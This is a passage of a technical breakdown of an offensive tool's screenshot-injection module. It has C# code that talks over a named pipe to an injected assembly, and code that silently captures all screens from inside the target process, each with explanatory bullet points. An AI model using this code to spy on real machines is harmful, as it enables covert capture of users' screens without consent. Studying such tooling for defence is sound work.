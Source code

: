 #### 5. Named Pipe Communication Setup
```csharp
AsyncNamedPipeClient client = new AsyncNamedPipeClient("127.0.0.1", parameters.PipeName);
client.ConnectionEstablished += Client_ConnectionEstablished;
client.MessageReceived += OnAsyncMessageReceived;
client.Disconnect += Client_Disconnect;

if (client.Connect(10000))
{
    IPCCommandArguments cmdargs = new IPCCommandArguments
    {
        ByteData = new byte[0],
        StringData = string.Format("{0} {1}", count, interval)
    };
    
    IPCChunkedData[] chunks = _serializer.SerializeIPCMessage(cmdargs);
    foreach (IPCChunkedData chunk in chunks)
    {
        _senderQueue.Enqueue(Encoding.UTF8.GetBytes(_serializer.Serialize(chunk)));
    }
}
```
- Establishes named pipe connection to injected process
- Uses 10-second connection timeout
- Sends configuration parameters (count, interval) to injected assembly
- Implements chunked message protocol for large data transfers
- Handles connection events asynchronously

#### 6. Injected Assembly Screenshot Logic
```csharp
// Inside injected ScreenshotInject.exe
public static byte[][] GetScreenshots()
{
    List<byte[]> bshots = new List<byte[]>();
    foreach(Screen sc in Screen.AllScreens)
    {
        byte[] bScreen = GetBytesFromScreen(sc);
        bshots.Add(bScreen);
    }
    return bshots.ToArray();
}

private static byte[] GetBytesFromScreen(Screen screen)
{
    using (Bitmap bmpScreenCapture = new Bitmap(screen.Bounds.Width, screen.Bounds.Height))
    {
        using (Graphics g = Graphics.FromImage(bmpScreenCapture))
        {
            g.CopyFromScreen(screen.Bounds.X, screen.Bounds.Y, 0, 0, 
                bmpScreenCapture.Size, CopyPixelOperation.SourceCopy);
            using (MemoryStream ms = new MemoryStream())
            {
                bmpScreenCapture.Save(ms, System.Drawing.Imaging.ImageFormat.Jpeg);
                return ms.ToArray();
            }
        }
    }
}
```
- Executes in target process's security context
- Captures all screens using `Screen.AllScreens`
- Uses `Graphics.CopyFromScreen()` for pixel capture
- Encodes screenshots as JPEG for smaller file size
- Sends data back through named pipe to parent process